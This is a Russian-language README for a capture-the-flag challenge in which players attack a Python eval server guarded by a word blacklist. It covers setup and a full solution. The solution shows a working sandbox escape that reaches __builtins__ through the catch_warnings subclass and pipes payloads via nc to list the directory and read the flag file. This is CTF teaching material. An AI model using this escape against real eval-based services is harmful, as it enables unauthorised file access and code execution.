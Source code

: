 Python eval
===========
**eval**
> К сожалению, кто-то сумел расшифровать тайное послание от Боба, из-за чего он лишился работы и, как мы подозреваем, стал работать на тайную организацию, целью которой является захват мира.  
> У Боба есть одна небольшая слабость — любовь к Python'у. Говорят, он даже написал свой сервер (ссылка на исходник), чтобы удаленно писать код.  
> Говорят, на его компьютере лежат планы захвата мира. Заполучите их!  

Файлы
-----
1. **eval.py** - Псевдо исходный код, который доступен участникам
2. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
3. **blacklist.txt** - Файл с запрещенными словами
4. **server.py** - Исходный код

Запуск
------
Необходимо создать пользователя с правами только на чтение файла с флагом.  
Файл с сервером, жалетельно, положить отдельно от файла с флагом, и запускать его, из папки с флагом.  
```
python3 server.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Адрес хоста, по умолчанию - socket.gethostbyname(socket.gethostname()) 
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

Решение
-------
1. Научиться получать доступ к \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)  
[Еще полезная ссылочка](http://www.floyd.ch/?p=584)
